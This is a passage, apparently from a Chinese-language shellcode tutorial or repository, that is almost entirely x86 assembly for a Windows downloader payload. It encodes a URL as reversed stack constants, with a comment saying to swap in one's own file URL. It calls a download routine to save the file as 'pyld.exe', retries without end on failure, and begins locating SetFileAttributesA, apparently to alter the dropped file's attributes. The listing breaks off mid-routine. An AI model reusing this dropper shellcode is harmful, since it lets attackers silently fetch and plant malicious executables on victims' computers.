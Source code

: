 ```
pop eax
xor ecx,ecx
push ecx

;-----------------------------
;change it to file url

0x6578652e  ; exe.
0x30323032  ; 0202
0x51514350  ; QQCP
0x2f455845  ; /EXE
0x5f515143  ; _QQC
0x502f5151  ; P/QQ
0x43502f62  ; CP/b
0x65777171  ; ewqq
0x2f6d6f63  ; /moc
0x2e71712e  ; .qq.
0x6e776f64  ; nwod
0x2f2f3a73  ; //:s
0x70747468  ; ptth
;-----------------------------------


push esp 
pop ecx ;https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe

xor ebx,ebx
push ebx
;save as (no need change it.if U want to change it,do it)
push 0x6578652e
push 0x646c7970
;-------------------------------
push esp ;pyld.exe
pop ebx ;save as

xor edx,edx
push eax
push edx
push edx
push ebx
push ecx
push edx

call eax

;-------------------------

pop ecx
add esp,44
xor edx,edx
cmp eax,edx
push ecx
jnz download ;if it fails to download , retry contineusly
;------------------
pop edx
```
- 找到`SetFileAttributesA()`地址
```
;-----------------------
;Finding address of SetFileAttributesA()
xor edx,edx


```